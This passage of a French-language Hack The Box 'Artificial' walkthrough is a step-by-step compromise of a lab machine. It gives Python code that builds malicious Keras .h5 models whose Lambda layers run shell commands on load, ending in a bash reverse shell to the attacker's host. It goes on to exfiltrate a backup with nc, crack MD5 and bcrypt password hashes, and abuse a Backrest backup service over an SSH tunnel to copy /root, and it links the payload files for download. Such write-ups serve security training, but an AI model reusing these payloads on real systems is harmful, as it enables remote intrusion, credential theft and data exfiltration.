Si le fichier `minimal.h5` est bien généré, cela confirme que ton environnement local est correctement configuré.

Une fois le fichier `minimal.h5` généré, tu le testes directement via l’interface web.  
Depuis le dashboard, tu sélectionnes le fichier avec le bouton **Browse**, puis tu l’uploades.

Après l’upload, tu cliques sur **View Predictions** afin de déclencher le chargement du modèle côté serveur.

C’est à ce moment précis que le modèle est chargé côté serveur, ce qui déclenche l’exécution du code contenu dans le fichier `.h5`.


Si aucune erreur n’est affichée et que la page **Model Predictions** s’ouvre, cela confirme que le modèle est accepté et correctement traité par l’application.  

Tu peux alors considérer que ton environnement local est conforme et passer à la création de fichiers `.h5` de preuve de concept.


### Preuve de concept : poc-touch.h5

Pour créer un premier modèle POC, tu t’inspires d’une recherche simple sur le sujet, par exemple avec les mots-clés `keras tensorflow RCE`.

Cette recherche met en évidence qu’il est possible d’exécuter du code lors du chargement d’un modèle Keras, notamment via l’utilisation de couches `Lambda`.

Tu peux notamment t’appuyer sur les travaux décrits ici :  
https://splint.gitbook.io/cyberblog/security-research/tensorflow-remote-code-execution-with-malicious-model

Tu adaptes ensuite ce principe à ton script `minimal.py` afin de créer une première preuve de concept simple.

#### Création de poc-touch.h5

Le but de ce premier PoC est volontairement simple : créer un fichier dans `/tmp` si le code est bien exécuté.

Pour cela tu crées d'abord un script `poc-touch.py` :

```bash
nano poc-touch.py
```

Tu ajoutes le code suivant, qui te permettra de vérifier si la fonction `payload` est bien exécutée :

```python
import tensorflow as tf
from tensorflow import keras
from tensorflow.keras import layers
import os

def payload(x):
    os.system("touch /tmp/poc_touch")
    return x

model = keras.Sequential([
    layers.Input(shape=(1,)),
    layers.Lambda(payload)
])

model.save("poc-touch.h5")
```

Tu exécutes ensuite le script pour générer le fichier `.h5` :

```bash
python3 poc-touch.py
ls -lh poc-touch.h5

```

Le fichier `poc-touch.h5` est maintenant prêt pour un premier test local dans l’environnement Docker.

#### Test de `poc-touch.h5` en local

Tout ce test se déroule dans le conteneur Docker local.

L’objectif est de valider le comportement du fichier `.h5` dans l’environnement de travail recréé à partir du `Dockerfile`, avant toute interaction avec la cible.

Pour tester ce modèle en local, tu crées un script Python qui prend le fichier `.h5` en argument et le charge.

```bash
nano test_model.py
```

Tu ajoutes le code suivant :

```python
import sys
from tensorflow import keras

model_path = sys.argv[1]

model = keras.models.load_model(model_path)
print("Modèle chargé")
```

Tu exécutes ensuite le script avec ton fichier :

```bash
python3 test_model.py poc-touch.h5
```

Si le chargement du modèle déclenche l’exécution de la fonction `payload`, le fichier `/tmp/poc_touch` doit être créé.

Tu peux le vérifier avec :

``` bash
ls -l /tmp/poc_touch
```

### Preuve de concept : poc-ping.h5

Pour tester la RCE depuis la cible, il faut que le fichier `.h5` déclenche une action observable depuis Kali.

Une méthode simple consiste à générer un modèle qui exécute un `ping` vers ta machine Kali.  
Si le ping est détecté côté Kali, cela confirme que le modèle est bien chargé par le serveur et que l’exécution de code fonctionne à distance.

Pour pouvoir utiliser la commande `ping` dans le conteneur, tu installes d’abord l’outil correspondant :

```bash
apt update
apt install -y iputils-ping
```


#### Création de `poc-ping.h5`

Pour préparer ce test, tu crées un nouveau script Python dans le conteneur :

```bash
nano poc-ping.py
```

Ce script reprend le principe de `poc-touch.py`, mais remplace la création d’un fichier local par une action réseau visible depuis Kali.

Tu ajoutes le code suivant, en remplaçant `10.10.x.x` par l’adresse IP `tun0` de ta machine Kali :

```python
import tensorflow as tf
from tensorflow import keras
from tensorflow.keras import layers

def payload(x):
    import os
    os.system("ping -c 3 10.10.x.x")
    return x

model = keras.Sequential([
    layers.Input(shape=(1,)),
    layers.Lambda(payload)
])

model.save("poc-ping.h5")
```


Tu génères ensuite le fichier `.h5` :

```bash
python3 poc-ping.py
ls -lh poc-ping.h5
```

#### Test de `poc-ping.h5` en local

Ce test se déroule entièrement dans le conteneur Docker local.

Avant de charger le modèle, tu démarres une capture réseau dans un fenêtre de ton Kali pour observer les paquets ICMP :

```bash
sudo tcpdump -i any icmp
```

Dans ton conteneur Docker, tu exécutes ensuite le script de test avec ton modèle :

```bash
python3 test_model.py poc-ping.h5
```

Si la fonction `payload` est exécutée, 3 requêtes `ping` sont envoyées vers Kali.

Tu dois alors voir apparaître **6 paquets ICMP** dans `tcpdump` :

- 3 requêtes (echo request)
- 3 réponses (echo reply)

Cela confirme que le modèle déclenche bien une action réseau lors de son chargement.

#### Test de `poc-ping.h5` en remote

Une fois le test local validé, tu peux vérifier le comportement du modèle sur la cible.

Sur ta machine Kali, tu démarres une capture réseau pour surveiller les paquets ICMP :

```bash
sudo tcpdump -i tun0 icmp
```

Depuis le `dashboard` de l’application, tu uploades le fichier `poc-ping.h5`, puis tu cliques sur `View Predictions` afin de déclencher le chargement du modèle côté serveur.

Si la fonction `payload` est exécutée, des requêtes `ping` doivent être envoyées vers ta machine Kali.

Ici aussi tu dois voir apparaître **6 paquets ICMP** dans `tcpdump` :

- 3 requêtes (echo request)
- 3 réponses (echo reply)

La réception de ces paquets ICMP confirme que :
- le modèle `.h5` est bien chargé par le serveur
- le code `ping` est exécuté côté cible

Une fois la RCE confirmée, tu peux remplacer la commande utilisée dans le PoC par un reverse shell afin d’obtenir un accès interactif.

### Exploitation : reverse-shell.h5

Une fois la RCE confirmée avec `poc-ping.h5`, tu peux passer à l’étape suivante : obtenir un accès distant sur la machine cible.

L’objectif est maintenant d’exploiter cette RCE en mettant en place un reverse shell, afin d’obtenir un accès interactif à la machine cible.

#### Création de reverse-shell.py

Tu reprends le principe utilisé précédemment et tu crées un nouveau script :

```bash
nano reverse-shell.py
```

Tu ajoutes le code suivant, en remplaçant `10.10.x.x` par l’adresse IP `tun0` de ta machine Kali :

```python
import tensorflow as tf
from tensorflow import keras
from tensorflow.keras import layers

def payload(x):
    import os
    os.system("bash -c 'bash -i >& /dev/tcp/10.10.x.x/4444 0>&1'")
    return x

model = keras.Sequential([
    layers.Input(shape=(1,)),
    layers.Lambda(payload)
])

model.save("reverse-shell.h5")
```


> **Note :** En cas de redémarrage ou de reset de la machine cible, l’image Docker est généralement déjà présente sur ton Kali.  
> Il n’est donc pas nécessaire de la reconstruire : un simple `docker run` suffit pour relancer l’environnement de travail.


Tu génères ensuite le fichier `.h5` :

```bash
python3 reverse-shell.py
ls -lh reverse-shell.h5
```

#### Reverse Shell

Sur ta machine Kali, tu démarres un listener :

```bash
nc -lnvp 4444
```

Depuis l’interface web, tu uploades le fichier `reverse-shell.h5` via le bouton `Browse` et `Upload Model`, puis tu cliques sur `View Predictions` afin de déclencher son exécution.

Si tout se passe correctement, une connexion entrante apparaît dans ton listener : le reverse shell est établi sur ta machine Kali.

```bash
app@artificial:~/app$ whoami
whoami
app
app@artificial:~/app$ id
id
uid=1001(app) gid=1001(app) groups=1001(app)
app@artificial:~/app$ pwd
pwd
/home/app/app
app@artificial:~/app$
```

Une fois le reverse shell obtenu, tu peux le stabiliser en appliquant la recette 

### Exploitation du reverse shell

#### Énumération initiale

Une fois le reverse shell établi et stabilisé, tu commences par une énumération de base du système :

```bash
whoami
id
pwd
uname -a
ls -la
```

L’utilisateur courant est `app`, et tu te trouves dans le répertoire de l’application.

#### Identification des utilisateurs

Tu explores ensuite les répertoires utilisateurs :

``` bash
ls -l /home
```

Tu observes la présence d’un seul autre utilisateur : `gael`.

Tu peux également confirmer avec :

```bash
cat /etc/passwd

gael:x:1000:1000:gael:/home/gael:/bin/bash
app:x:1001:1001:,,,:/home/app:/bin/bash
```

Le fichier `user.txt` n’étant pas présent dans `/home/app`, il est probable qu’il se trouve dans `/home/gael`, auquel tu n’as pas accès.

L’objectif devient donc d’obtenir les droits de cet utilisateur.

#### Analyse de l’application

L’analyse du répertoire courant montre que le fichier `app.py` est lisible :

```bash
ls -la
total 36
drwxrwxr-x 7 app app 4096 Jun  9  2025 .
drwxr-x--- 6 app app 4096 Jun  9  2025 ..
-rw-rw-r-- 1 app app 7846 Jun  9  2025 app.py
drwxr-xr-x 2 app app 4096 Apr 29 07:28 instance
drwxrwxr-x 2 app app 4096 Apr 29 07:28 models
drwxr-xr-x 2 app app 4096 Jun  9  2025 __pycache__
drwxrwxr-x 4 app app 4096 Jun  9  2025 static
drwxrwxr-x 2 app app 4096 Jun 18  2025 templates
```

```bash
cat app.py
```

Tu identifies rapidement une clé secrète Flask :

```python
app.secret_key = "Sup3rS3cr3tKey4rtIfici4L"
```

Cette clé est utilisée pour la gestion des sessions web, mais elle ne permet pas ici d’obtenir un accès direct en SSH avec l’utilisateur `gael`.

En poursuivant l’analyse, tu trouves la configuration de la base de données :

```python
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///users.db'
app.config['SQLALCHEMY_TRACK_MODIFICATIONS'] = False
app.config['UPLOAD_FOLDER'] = 'models'
```

Un peu plus loin, tu identifies le mécanisme de hash des mots de passe :

```python
def hash(password):
 password = password.encode()
 hash = hashlib.md5(password).hexdigest()
 return hash
```

Ce fichier révèle que l’application utilise une base de données SQLite `users.db`, contenant les identifiants des utilisateurs, avec des mots de passe hashés en MD5.

Tu recherches alors cette base de données :

``` bash
find / -name users.db 2>/dev/null
```

Le fichier est localisé dans le répertoire `instance` de l’application :

``` bash
/home/app/app/instance/users.db
```

#### Extraction des identifiants

Tu ouvres `users.db` avec `sqlite3` :

``` bash
sqlite3 instance/users.db
```

Puis tu listes les tables et extrais les utilisateurs :

```sql
app@artificial:~/app$ sqlite3 instance/users.db
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .tables
model  user 
sqlite> select * from user;
1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8
2|mark|mark@artificial.htb|0f3d8c76530022670f1c6029eed09ccb
3|robert|robert@artificial.htb|b606c5f5136170f15444251665638b36
4|royer|royer@artificial.htb|bc25b1f80f544c0ab451c02a3dca9fc6
5|mary|mary@artificial.htb|bf041041e57f1aff3be7ea1abd6129d0
6|noelnac|noelnac@artificial.htb|5f4dcc3b5aa765d61d8327deb882cf99
sqlite>
```

Cela te permet de récupérer le hash MD5 associé à l’utilisateur `gael`.

```sql
1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8
```


#### Crack du mot de passe

Tu utilises ensuite un service de crack comme CrackStation pour retrouver le mot de passe en clair.


Le hash est résolu en :

```text
gael:mattp005numbertwo
```

#### Accès SSH

Ces identifiants peuvent être utilisés pour établir une connexion SSH :

``` bash
ssh gael@artificial.htb
```

Une fois connecté, tu peux accéder au fichier `user.txt` dans le répertoire personnel de `gael`.


### user.txt

```bash
gael@artificial:~$ ls -l
total 4
-rw-r----- 1 root gael 33 Apr 28 08:38 user.txt


gael@artificial:~$ cat user.txt
0fb9xxxxxxxxxxxxxxxxxxxxxxxx6143
```

Une fois le fichier `user.txt` récupéré, la prise de pied est validée. Tu peux désormais passer à la phase d’escalade de privilèges.


## Escalade de privilèges



### Sudo -l
Tu commences toujours par vérifier les droits sudo :

```bash
gael@artificial:~$ sudo -l
[sudo] password for gael: 
Sorry, user gael may not run sudo on artificial.
gael@artificial:~
```

Le résultat est clair : l’utilisateur `gael` ne dispose d’aucun droit sudo.

Tu peux donc écarter cette piste et poursuivre l’énumération.

### Exploration du contexte utilisateur

Avant d’aller plus loin, tu vérifies le contexte dans lequel tu te trouves :

```bash
whoami
id
pwd
uname -a
hostname
```

Résultat :

```bash
gael@artificial:~$ whoami
gael
gael@artificial:~$ id
uid=1000(gael) gid=1000(gael) groups=1000(gael),1007(sysadm)
gael@artificial:~$ pwd
/home/gael
gael@artificial:~$ uname -a
Linux artificial 5.4.0-216-generic #236-Ubuntu SMP Fri Apr 11 19:53:21 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
gael@artificial:~$ hostname
artificial
gael@artificial:~
```

Tu observes que :

- tu es connecté en tant qu’utilisateur `gael`
- tu appartiens au groupe supplémentaire `sysadm`
- tu es dans ton répertoire personnel `/home/gael`
- le système est une machine Ubuntu avec un noyau Linux 5.4

#### Exploration du groupe sysadm

Lors de l’analyse du contexte, un élément attire ton attention : l’utilisateur `gael` appartient au groupe `sysadm`.

Ce type de groupe est généralement associé à des tâches d’administration système.

Concrètement, cela signifie qu’il peut donner accès à des fichiers ou des répertoires normalement réservés à des utilisateurs privilégiés.

Dans un contexte CTF, ce type d’accès indirect constitue souvent une piste exploitable : il peut notamment permettre d’accéder à des sauvegardes, des fichiers de configuration ou d’autres données sensibles.

Tu décides donc d’explorer cette piste en recherchant les fichiers accessibles par ce groupe :

```bash
find / -group sysadm 2>/dev/null
```

Résultat :

```bash
/var/backups/backrest_backup.tar.gz
```

Un seul fichier ressort, mais il est particulièrement intéressant :

- il se trouve dans `/var/backups`, un emplacement souvent réservé aux sauvegardes
- son nom suggère une archive liée à **Backrest**, un outil de backup

Les fichiers de sauvegarde contiennent fréquemment :

- des configurations
- des identifiants
- voire des fichiers sensibles du système

Ce fichier mérite donc une analyse approfondie.

#### Récupération de la sauvegarde

Plutôt que d’analyser l’archive directement sur la machine cible, tu choisis de la récupérer sur ta machine Kali en utilisant la recette 

Sur ta machine Kali, tu ouvres un listener :

```bash
nc -lvnp 4444 > backrest_backup.tar.gz
```

Sur la machine cible, tu envoies le fichier :

```bash
cd /var/backups
nc 10.10.16.93 4444 < backrest_backup.tar.gz
```

Le fichier est alors transféré directement vers ta machine Kali.

#### Analyse locale de l’archive

Une fois le fichier récupéré sur Kali, tu tentes de l’extraire :

```bash
tar -xzf backrest_backup.tar.gz
```

Résultat :

```bash
gzip: stdin: not in gzip format
tar: Child returned status 1
tar: Error is not recoverable: exiting now
```

Cette erreur indique que le fichier **n’est pas compressé en gzip**, malgré son extension `.tar.gz`.

Tu vérifies alors son type réel :

```bash
file backrest_backup.tar.gz

backrest_backup.tar.gz: POSIX tar archive (GNU)
```

Dans ce cas, il s’agit en réalité d’une archive **tar simple**.

Tu adaptes donc la commande d’extraction :

```bash
tar -xf backrest_backup.tar.gz
```

Tu explores ensuite son contenu :

```bash
ls -la

total 51072
drwxrwxrwx 2 kali kali        0 Mar  4  2025 .
drwxrwxrwx 2 kali kali        0 Apr 29 10:40 ..
-rwxrwxrwx 1 kali kali 25690264 Feb 16  2025 backrest
drwxrwxrwx 2 kali kali        0 Mar  3  2025 .config
-rwxrwxrwx 1 kali kali     3025 Mar  3  2025 install.sh
-rwxrwxrwx 1 kali kali       64 Mar  3  2025 jwt-secret
-rwxrwxrwx 1 kali kali    57344 Mar  4  2025 oplog.sqlite
-rwxrwxrwx 1 kali kali        0 Mar  3  2025 oplog.sqlite.lock
-rwxrwxrwx 1 kali kali    32768 Mar  4  2025 oplog.sqlite-shm
-rwxrwxrwx 1 kali kali        0 Mar  4  2025 oplog.sqlite-wal
drwxrwxrwx 2 kali kali        0 Mar  3  2025 processlogs
-rwxrwxrwx 1 kali kali 26501272 Mar  3  2025 restic
drwxrwxrwx 2 kali kali        0 Mar  4  2025 tasklogs
```

En te basant sur l’expression **"Permissions et root"** de la recette , tu lances la recherche suivante :

```bash
grep -REi 'sudo|root|permission|owner|chmod|chown|suid|uid|gid|user|pass|login|auth|credential|creds' .
```

Résultat :

```bash
.config/backrest/config.json:  "auth": {
.config/backrest/config.json:    "users": [
.config/backrest/config.json:        "name": "backrest_root",
.config/backrest/config.json:        "passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
install.sh:    sudo systemctl stop backrest
install.sh:  sudo mkdir -p /usr/local/bin
install.sh:  sudo cp $(ls -1 backrest | head -n 1) /usr/local/bin
install.sh:  sudo tee /etc/systemd/system/backrest.service > /dev/null <<- EOM
install.sh:User=$(whoami)
install.sh:WantedBy=multi-user.target
install.sh:  sudo systemctl daemon-reload
install.sh:  sudo systemctl enable backrest
install.sh:  sudo systemctl start backrest
processlogs/backrest.log:{"level":"debug","msg":"loading auth secret from file"}
```

#### Analyse des résultats

Parmi ces résultats, plusieurs fichiers apparaissent, mais tous ne sont pas pertinents pour une élévation de privilèges.

Tu te focalises sur le fichier :

```bash
.config/backrest/config.json
```

qui contient :

- un utilisateur : `backrest_root`
- un champ `passwordBcrypt`

C’est l’élément le plus intéressant de cette recherche.

Les autres résultats (`install.sh`, logs, binaires) apportent du contexte sur le fonctionnement de l’application, mais ne fournissent pas directement de vecteur d’exploitation.

#### Décodage du hash bcrypt

Le champ `passwordBcrypt` contient la valeur suivante :

```
JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP
```

Cette chaîne ne correspond pas directement à un hash bcrypt classique (qui commence par `$2a$`).

Sa structure indique qu’il s’agit d’un encodage **Base64**. Tu la décodes donc :

```bash
echo 'JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP' | base64 -d
```

Résultat :

```bash
$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO 
```

Le préfixe `$2a$10$` confirme qu’il s’agit bien d’un **hash bcrypt valide**.

Tu peux maintenant le casser avec `hashcat` :

~~~bash
hashcat -m 3200 \
  '$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO' \
  /usr/share/wordlists/rockyou.txt
~~~

Le mot de passe est retrouvé rapidement :

```bash
b$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO:!@#$%^
```

Tu obtiens ainsi les identifiants suivants :

```bash
backrest_root:!@#$%^
```

Ces identifiants correspondent probablement à un compte applicatif. Un test en SSH confirme qu’ils ne permettent pas un accès système direct.

Tu cherches alors à identifier le service associé à ce compte. La première idée consiste à analyser tout de suite les services locaux, par exemple avec `netstat -tulpn`.

Toutefois, afin de ne rien manquer, tu choisis de suivre la méthodologie complète décrite dans la recette , en poursuivant l’énumération de manière structurée.

### Vérifications classiques d’escalade

Tu poursuis l’énumération en appliquant les vérifications classiques de la méthode :

- recherche de binaires SUID
- analyse des capabilities Linux
- inspection des tâches cron
- observation des processus avec `pspy64`

#### SUID

```bash
find / -perm -4000 -type f 2>/dev/null
```

Aucun binaire inhabituel ou exploitable n’est identifié.

#### capabilities

```bash
getcap -r / 2>/dev/null
```

Aucune capability exploitable n’est trouvée.

#### Vérification complémentaire avec suid3num

```bash
cd /dev/shm
wget http://10.10.x.x:8000/suid3num.py
python3 suid3num.py
```
- aucun binaire personnalisé n’est identifié
- aucun binaire exploitable via GTFOBins n’est détecté

#### Tâches cron

```bash
cat /etc/crontab
```

Seules les tâches système par défaut sont présentes.

#### pspy64

Tu observes les processus exécutés par root avec pspy64.

Aucun processus exploitable n’apparaît, même après plusieurs minutes d’observation.

### Analyse des services locaux

```bash
netstat -tulpn
```

```bash
tcp        0      0 127.0.0.1:5000          0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:9898          0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
```

Tu recherches les services associés aux ports **5000** et **9898** depuis le répertoire `/etc` :

```bash
grep -r ':9898' /etc 2>/dev/null
grep -r ':5000' /etc 2>/dev/null
```

Résultats :

```bash
systemd/system/backrest.service:Environment="BACKREST_PORT=127.0.0.1:9898"

systemd/system/app.service:ExecStart=/usr/bin/gunicorn -w 4 --error-logfile /dev/null --access-logfile /dev/null app:app -b 127.0.0.1:5000

/etc/nginx/sites-available/default:		proxy_pass http://127.0.0.1:5000;
gael@artificial:/$ 
```

Ces recherches te permettent d’identifier que :

- **Backrest** est exécuté localement sur le port **9898**
- **nginx** relaie les requêtes vers l’application sur le port **5000**

### Conclusion de l’énumération manuelle

Les vérifications classiques (sudo, SUID, capabilities, suid3num, cron, pspy64) ne révèlent aucune piste exploitable.

En revanche, un élément ressort clairement de l’analyse :

- l’appartenance au groupe `sysadm`
- l’accès à une sauvegarde dans `/var/backups`
- la présence d’identifiants pour le service **Backrest**

Ces éléments ne sont pas isolés : ils forment une chaîne logique.

Tu identifies alors une piste cohérente :

- un service de sauvegarde accessible localement
- des identifiants valides pour ce service
- et potentiellement un accès indirect à des fichiers sensibles

L’analyse des fichiers de configuration confirme que **Backrest** est exécuté localement sur le port **9898**.

Tu disposes maintenant de tous les éléments nécessaires pour tenter une exploitation.


### Exploitation de Backrest

L’accès à l’interface Backrest sur le port **9898** permet d’interagir directement avec le système de sauvegarde.

Ce point est essentiel : 

Backrest s’exécute avec des privilèges élevés afin de pouvoir sauvegarder l’ensemble du système, y compris des répertoires sensibles comme `/root`.

Même si tu es connecté en tant qu’utilisateur `gael`, les actions réalisées via l’interface sont exécutées avec les droits du service.

Concrètement, l’exploitation repose sur trois étapes :

1. demander à Backrest de sauvegarder `/root`
2. restaurer cette sauvegarde vers un chemin accessible
3. télécharger les fichiers restaurés

Ce mécanisme permet de contourner les restrictions classiques et d’accéder indirectement à des fichiers normalement inaccessibles.

Le service n’étant accessible qu’en local, tu mets en place un tunnel SSH depuis ta machine Kali avec le compte `gael:mattp005numbertwo` :

```bash
ssh -L 9898:127.0.0.1:9898 gael@artificial.htb
```

Une fois le tunnel actif, tu peux accéder au service depuis ton navigateur :

```
http://127.0.0.1:9898
```

Tu accèdes à l’interface avec les identifiants `backrest_root:!@#$%^`



#### Accès à l’interface principale

Une fois connecté, tu arrives sur l’interface principale :



#### Création d’un repository

Tu commences par créer un dépôt via **Add Repo**.

Tu peux par exemple utiliser un chemin accessible comme `/home/gael` :




L’objectif ici est simplement d’initialiser un dépôt que Backrest utilisera pour stocker les sauvegardes.

#### Création d’un plan de sauvegarde

Tu ajoutes ensuite un plan via **Add Plan**.

Le point clé est le chemin :

```bash
/root
```



Tu demandes explicitement à Backrest de sauvegarder le répertoire `/root`.

####  Lancement d'un backup

Une fois le plan créé, tu peux lancer une sauvegarde manuellement :

```bash
Backup Now
```




#### Restauration vers un chemin contrôlé

Tu sélectionnes ensuite le snapshot et choisis **Restore to path**.



Tu gardes l'emplacement par défaut proposé par l'interface



le contenu de `/root` est copié vers un chemin accessible

#### Téléchargement des fichiers

Enfin, l’interface permet de télécharger les fichiers restaurés :

```
Download File(s)
```



Un fichier de type :

```
[date].tar.gz
```

est alors téléchargé sur ta machine Kali.

Il ne te reste plus qu’à extraire l’archive pour récupérer l’intégralité du répertoire `/root` :

```
tar -xzf [date].tar.gz
```

Tu obtiens ainsi une copie complète du contenu de `/root`, incluant les fichiers sensibles et le flag `root.txt`.

### root.txt

Le fichier `root.txt` est présent dans l’archive extraite :

```bash
ls -la root

total 12
drwxr-xr-x 2 kali kali    0 May  1 11:21 .
drwxr-xr-x 2 kali kali    0 May  1 11:27 ..
-rw-r--r-- 1 kali kali    0 Apr 30 11:06 .bash_history
-rw-r--r-- 1 kali kali 3106 Dec  5  2019 .bashrc
drwxr-xr-x 2 kali kali    0 May  1 10:19 .cache
drwxr-xr-x 2 kali kali    0 May  1 10:19 .local
-rw-r--r-- 1 kali kali  161 Dec  5  2019 .profile
-rw-r--r-- 1 kali kali    0 Apr 30 11:06 .python_history
-rw-r--r-- 1 kali kali   33 Apr 30 11:08 root.txt
drwxr-xr-x 2 kali kali    0 May  1 10:19 scripts
drwxr-xr-x 2 kali kali    0 May  1 10:19 .ssh
```

Son contenu peut être affiché avec :

```bash
cat root/root.txt
64b6xxxxxxxxxxxxxxxxxxxxxxxxd161
```

La récupération du flag `root.txt` confirme la compromission complète de la machine.


## Conclusion

Ce challenge illustre une chaîne d’exploitation complète, basée sur une énumération méthodique et l’exploitation d’un service applicatif exposé indirectement.

Après une prise de pied via l’application web, l’analyse du contexte utilisateur met en évidence l’appartenance au groupe `sysadm`.
 Cette information, souvent négligée, permet ici d’accéder à une sauvegarde contenant des éléments sensibles.

L’exploitation de cette archive révèle des identifiants valides pour le service **Backrest**, exécuté localement.
 En mettant en place un tunnel SSH, tu accèdes à son interface et abuses de sa fonctionnalité principale : la gestion des sauvegardes.

Comme le service s’exécute avec des privilèges élevés, il est possible de sauvegarder puis restaurer le contenu du répertoire `/root`, contournant ainsi les restrictions d’accès classiques.

Cette approche permet d’obtenir le flag `root.txt` sans exploitation de vulnérabilité complexe, mais en tirant parti d’une mauvaise exposition des fonctionnalités d’un service de backup.

Ce type de scénario, fréquent dans les machines **HTB Easy**, met en évidence un point essentiel : les services de sauvegarde et d’administration représentent des cibles privilégiées, car ils disposent souvent d’un accès étendu au système.

---

## Pièces jointes

### Modèles `.h5`

- <a href="files/poc-ping.h5" download>poc-ping.h5</a>  
- <a href="files/poc-touch.h5" download>poc-touch.h5</a>  
- <a href="files/reverse-shell.h5" download>reverse-shell.h5</a>  
- <a href="files/minimal.h5" download>minimal.h5</a>  

### Scripts Python

- <a href="files/poc-ping.py" download>poc-ping.py</a>  
- <a href="files/poc-touch.py" download>poc-touch.py</a>  
- <a href="files/reverse-shell.py" download>reverse-shell.py</a>  
- <a href="files/minimal.py" download>minimal.py</a>  
- <a href="files/test_model.py" download>test_model.py</a>

---

